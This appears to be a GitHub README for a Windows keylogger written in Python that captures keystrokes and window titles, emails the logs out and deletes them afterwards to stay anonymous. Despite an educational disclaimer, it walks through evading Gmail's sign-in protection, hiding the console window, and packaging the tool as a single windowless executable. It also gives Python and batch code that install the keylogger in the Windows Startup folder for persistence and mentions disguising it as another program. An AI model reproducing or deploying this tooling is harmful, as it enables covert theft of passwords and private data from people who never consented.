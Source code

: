 # This program is primarily used to research how keyloggers work.

# Python_KeyLogger_Windows
A Keylogger written in Python 3.6 that takes in user input from the keyboard, stores the data in a log, and then sends it to an email address. The data log is destroyed after the email is sent to remain anonymous.

<h1>DISCLAIMER</h1>
This program is for educational/research purposes only. The author takes no responsibility and/or liability for how an individual chooses to use any of the source files provided. The author will not be liable for any losses and/or damages in connection to the use of the program and its provided files. By using CSL_KeyLogger_Windows and/or any of its files included, you understand that you are AGREEING TO USE THE PROGRAM AT YOUR OWN RISK. This program is ONLY intended for personal use on a personal pentesting lab, or with consent from an individual of a system being tested.

<h2>Windows installation of python modules:</h2>
<strong>Download pyWin32 and pyHook modules from here, these libraries are required:</strong>
https://www.lfd.uci.edu/~gohlke/pythonlibs/

<strong>Troubleshooting:</strong>
<ul>
 	<li>-ensure that your python version matches the module you are installing, or you will get errors when installing the modules.</li>
 	<li>-If you get an error, try installing the alternate version of the same version of the module as your python version.
An example is if you download pyHook-1.5.1-cp36-cp36m-win_amd64 and you get an error, then try pyHook-1.5.1-cp36-cp36m-win32.</li>
 	<li>-majority of the times an error occurs when installing modules is usually from either a mismatch of versions with the module and python, or pip is not up to date.</li>
 	<li>-to update pip
python -m pip install --upgrade pip</li>
</ul>

<h1>Guide on how to install Python Modules on Windows:</h1>
<strong>Open up the windows Command prompt as admin:</strong>
<ul>
 	<li>change to d drive if you have pythons executable here (in my case its in the d drive):
d:</li>
 	<li>change directory to the python exe:
cd D:\YourPath\venv\Scripts</li>
 	<li>now we want to install the pyHook module from this directory with pip, (my path is the following, change the path to wherever you have stored the .whl module):
py -3.6 -m pip install C:\Users\YourPath\pywin32-223-cp36-cp36m-win32.whl</li>
 	<li>now we want to install the pyWin32 module from this library with pip, (my path is the following, change the path to wherever you have stored the .whl module):
py -3.6 -m pip install C:\Users\YourPath\pywin32-223-cp36-cp36m-win32.whl</li>
</ul>
&nbsp;

<img src="screenshots/screen1.png"  />

<hr />

<h2>Troubleshooting:</h2>
<ul>
 	<li><strong>SMTPAuthenticationError when sending mail using gmail FIX:</strong></li>
</ul>
When using googles mail server, the email that you are using will be blocked for any sign-in attempts with the python program unless better security standards are in place. Because of this we need to enable access to less secure apps to allow us to send emails to this gmail account with the python program.

Sign into the gmail account that you want to use with the python program, and press the <strong>Turn On</strong> toggle button:
<a href="https://www.google.com/settings/security/lesssecureapps">https://www.google.com/settings/security/lesssecureapps</a>

<img src="screenshots/screen2.png"  />
<ul>
 	<li><strong>Python IDLE issues, keylogger is not picking up keys FIX:</strong></li>
</ul>
If you are dealing with this issue with the IDLE, then delete the contents in the .idlerc folder located within your user profile of your computer. To find the folder check your user profile name followed by %APPDATA% and look for a folder called.<b>".idlerc"</b>. Delete everything in that folder, and you should be able to run the program through python IDLE.

<img src="screenshots/screen3.png"  />

<h2>Output:</h2>
<strong>Running the Program:</strong>
Open IDLE, or PyCharm, or whatever text editor, or IDE that you prefer for python and run the program. The python program outputs the values it picks up from the key presses using the print statements. This is a good way to see how the keylogger works. If you want to hide the DOS shell window that appears when running the python program, change the file extension from <b>".py"</b> to <b>".pyw"</b>.


<strong>Here is an example of the program running. This is the output after first going to notepad and typing some words, then going to google. This is to show how the program marks the windows/programs the target is currently on.</strong>


<img src="screenshots/screen4.png"  />

<img src="screenshots/screen5.png"  />

<img src="screenshots/screen6.png"  />

<img src="screenshots/screen7.png"  />

<strong>This is how the log file(s) store the logged keys:</strong>
<img src="screenshots/screen8.png"  />

<strong>This is the sent keys logged to the email specified:</strong>
<img src="screenshots/screen9.png"  />

<hr />

<h2>Creating the Executable:</h2>
When creating the executable file you want to use the python module, <b>pyinstaller</b>. This allows the program to be ran anywhere. The first thing required is the pyinstaller module, so install it using pip:

<div style="background: #000000; color: #00ff00; overflow: auto; width: auto; border: solid gray; border-width: .1em .1em .1em .8em; padding: .2em .6em;">
<pre style="margin: 0;">
pip install pyinstaller
</pre>
</div>

Then type the following command on your windows command prompt to create the executable:
<div style="background: #000000; color: #00ff00; overflow: auto; width: auto; border: solid gray; border-width: .1em .1em .1em .8em; padding: .2em .6em;">
<pre style="margin: 0;">
pyinstaller -w -F name_of_python_script.py
</pre>
</div>

The -w removes the opening of prompt window, while -F ensures that the executable is a single file that includes everything, rather then a folder. Once that's done navigate to the <b>dist</b> folder within the folder of your newly created python script, and grab the exe file.

The file is now created.

<hr />

<h2>Persistenly Run KeyLogger on Startup:</h2>
On Windows devices there is a startup folder that determines which applications will run on startup. This folder is where some exploiters will store their keyloggers, in some cases they will mask it as a another program. Essentially this is done by implementing a python function that creates a bat file that runs the <b>'start'</b> command, followed by the file path to the keylogger to execute the program. Or a general bat file stored in the startup folder that contains the following script with the commands will work.

Here is the python function that can be included in the program which creates the bat file. (I have included the full program with log deletion and bat startup under "key_log_win_withBATCreation.pyw"):
<div style="background: #000000; color: #00ff00; overflow: auto; width: auto; border: solid gray; border-width: .1em .1em .1em .8em; padding: .2em .6em;">
<pre style="margin: 0;">import getpass as gp
usern = gp.getuser()

def bat_create_file(path_log=""):
    bat_path = r'C:\Users\%s\YourPath\Startup' % usern
    with open(bat_path + '\\' + "open.bat", "w+") as bat_file:
        bat_file.write(r'start "" %s' % path_log)

bat_create_file(path_log)
</pre>
</div>
Sometimes a separate bat file is used instead of having a built-in function:
<div style="background: #000000; color: #00ff00; overflow: auto; width: auto; border: solid gray; border-width: .1em .1em .1em .8em; padding: .2em .6em;">
<pre style="margin: 0;">REM Place in startup folder
start "" path_log/myProgram.exe
exit</pre>
</div>


